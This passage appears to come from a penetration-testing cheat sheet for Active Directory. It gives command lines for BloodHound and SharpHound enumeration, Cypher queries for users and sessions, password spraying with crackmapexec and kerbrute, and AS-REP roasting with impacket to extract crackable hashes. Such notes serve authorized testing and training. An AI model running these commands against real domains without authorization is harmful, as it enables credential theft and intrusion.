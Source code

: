 Open terminal and type:
```
sudo neo4j console
```

After neo4j has been loaded, use another terminal and type:
```
bloodhound
```

#### Sharphound:
```
Invoke-BloodHound -CollectionMethod All
```

#### Analyzing Data

##### Raw Queries

###### Return Computers:
```
MATCH (m:Computer) RETURN m
```

###### Return Users:
```
MATCH (m:User) RETURN m
```

```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

# Attacking

Reference: [Wikipedia](https://en.wikipedia.org/wiki/Kerberos_%28protocol%29)
![](Kerberos_protocol.png)

## Password Attacks

### Password Spraying
```
crackmapexec smb 192.168.10.10 -u users.txt -p 'password123!' -d corp.com --continue-on-success
```

### Kerbrute
```
kerbrute passwordspray -d test.local domain_users.txt password123
```

## AS-REP Roasting

### impacket
```
impacket-GetNPUsers domain.com/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
```
